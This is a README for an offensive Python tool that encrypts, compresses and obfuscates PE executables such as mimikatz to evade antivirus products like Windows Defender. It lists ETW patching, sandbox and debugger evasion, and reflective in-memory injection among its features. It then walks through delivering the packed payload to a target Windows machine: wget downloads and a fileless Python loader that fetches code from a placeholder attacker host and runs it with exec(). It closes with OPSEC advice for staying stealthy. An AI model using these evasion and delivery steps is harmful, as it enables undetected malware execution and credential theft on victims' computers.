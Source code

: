 ### Invoke-Python-PePacker.py
--------------------------------------
'Invoke-Python-PePacker.py' allows to pack and encrypt offensive PE files (x64 exe) in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated Python script that embeds a compressed and encrypted version of the target PE file, and implements several defense evasion techniques.

#### FEATURES
  - Reflective PE injection in-memory using the 'PythonMemoryModule'
  - PE encryption (XOR) and compression (Zlib)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Script obfuscation (Function and variable names are randomized + Nested payloads)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as mimikatz, pplblade, etc.

#### USAGE
- STEP 1. Generate an obfuscated and encrypted Python script that contains your PE file (e.g. mimikatz.exe, pplblade.exe).
          If you want to add arguments to pass to your PE file during its execution in-memory, you need to add them in the script 'Invoke-Python-PePacker.py'
          before running it.
```
Basic example for mimikatz
---------------------------
1. Edit the script 'Invoke-Python-PePacker.py'
   + Example 1 - You want to run mimikatz with the argument 'coffee' 
     > pythonmemorymodule.MemoryModule(data={pe_var}, command =' coffee')
   + Example 2 - You want to run mimikatz (interactively) with no argument
     > pythonmemorymodule.MemoryModule(data={pe_var})

2. Run the script 'Invoke-Python-PePacker.py' to generate an obfuscated Python script that embeds mimikatz
+ C:\path\python-3.10.4> python.exe .\Invoke-Python-PePacker.py ".\mimikatz.exe" ".\obfuscated_script.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated Python script (embeding you offensive PE) on a target Windows computer.

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated Python script.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the Python 'MemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated Python script (embeding you offensive PE) on the target
    Windows machine using Python. This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://your-IP-or-website/obfuscated_script.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated Python script locally before execution.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the 'PythonMemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store locally on disk the obfuscated Python script (embeding you offensive PE) before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri https://your-IP-or-website/obfuscated_script.py -OutFile C:\temp\python\obfuscated_script.py"
    C:\temp\python> python.exe .\obfuscated_script.py
```
  - Option C: Use PyInstaller to bundle the obfuscated Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer.


#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating the obfuscated Python script (embeding you offensive PE).
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
